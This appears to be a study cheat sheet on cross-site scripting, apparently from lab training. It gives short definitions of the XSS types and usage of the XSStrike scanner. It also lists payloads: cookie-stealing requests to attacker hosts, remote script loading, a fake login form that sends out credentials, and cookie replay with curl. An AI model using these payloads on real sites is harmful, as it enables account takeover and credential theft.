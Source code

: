 
### ⚡ **What is Stored XSS?**  
Stored XSS means the attacker puts JavaScript code into a website (like a comment box or to-do list), and that code gets saved in the server's database. When anyone opens that page, the script runs in their browser, not just yours.

### ⚡ What is Reflected XSS?

- Reflected XSS happens when your input (like a name or comment) is sent to the **server** and then quickly shown back in the webpage **without being cleaned (filtered)**.
- The input **is not saved** on the website — it only appears in the **same session** and **disappears on refresh**.
- That’s why it’s called **Non-Persistent XSS** (temporary).

### 💡 What is DOM XSS?

- **DOM XSS** is a type of XSS attack that happens **only in your browser**.
- It **does not send data to the server** — instead, the browser’s **JavaScript reads your input and updates the page** using it.
- DOM = **Document Object Model** (how the browser builds and shows the web page).

#### Automated tool:
```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 

```

#### Payloads
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md


## XSS Testing Payloads

```html
# Basic XSS Payload
<script>alert(document.cookie)</script>
<img src="" onerror="alert(document.cookie)">
<img src=x onerror=alert(1)>
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>

# HTML-based XSS Payload
<img src="" onerror=alert(window.origin)>

# Change Background Color
<script>document.body.style.background = "#141d2b"</script>

# Change Background Image
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>

# Change Website Title
<script>document.title = 'HackTheBox Academy'</script>

# Overwrite website's main body
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>

# Remove certain HTML element
<script>document.getElementById('urlform').remove();</script>

# Load remote script
<script src="http://OUR_IP/script.js"></script>

#Send Cookie details to us
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>

```

## Phishing 
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP:PORT><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

## Session Hijacking

1. testing payload
```bash
"><script src=http://10.10.15.121></script>
```
2. payload for fetching cookie
```bash
"><img src=1 onerror="location='http://10.10.15.33:8080?c='+document.cookie">
```
3. using the cookie as curl
```bash
curl --cookie "cookie=c00k1355h0u1d8353cu23d" http://10.129.17.200/hijacking/login.php
```